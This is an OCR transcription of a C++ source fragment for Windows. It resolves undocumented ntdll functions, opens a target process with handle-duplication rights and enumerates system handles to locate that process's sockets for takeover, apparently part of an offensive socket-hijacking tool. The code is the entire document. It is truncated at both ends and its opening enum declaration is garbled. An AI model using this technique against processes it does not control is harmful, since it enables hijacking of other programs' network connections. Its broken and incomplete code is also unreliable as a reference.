 ```cpp
{
    NonPagedPool,
    PagedPool,
    NonPagedPoolMustSucceed,
    DontUseThisType,
    NonPagedPoolCacheAligned,
    PagedPoolCacheAligned,
    NonPagedPoolCacheAlignedMustS
} POOL_TYPE, * PPOOL_TYPE;

typedef struct _OBJECT_NAME_INFORMATION
{
    UNICODE_STRING Name;
} OBJECT_NAME_INFORMATION, * POBJECT_NAME_INFORMATION;

PVOID GetLibraryProcAddress(const char *LibraryName, const char *ProcName)
{
    return GetProcAddress(GetModuleHandleA(LibraryName), ProcName);
}

SOCKET findTargetSocket(DWORD dwProcessId, LPSTR dstIP) {
    HANDLE hProc;
    PSYSTEM_HANDLE_INFORMATION handleInfo;
    DWORD handleInfoSize = 0x10000;
    NTSTATUS status;
    DWORD returnLength;
    WSAPROTOCOL_INFOW wsaProtocolInfo = { 0 };
    SOCKET targetSocket;

    // Open target process with PROCESS_DUP_HANDLE rights
    hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
    if (!hProc) {
        printf("[!] Error: could not open the process!\n");
        exit(-1);
    }
    printf("[+] Handle to process obtained!\n");

    // Find the functions
    _NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
    _NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
    _NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

    // Retrieve handles from the target process
    handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
    while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
        handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);

    printf("[+] Found [%d] handles in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

    // Iterate 
    for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

        // Check if it is the desired type of handle
        if (handleInfo->Handles[i].ObjectTypeNumber == 0x24) {

            SYSTEM_HANDLE handle = handleInfo->Handles[i];
            HANDLE dupHandle = NULL;
            POBJECT_NAME_INFORMATION objectNameInfo;
```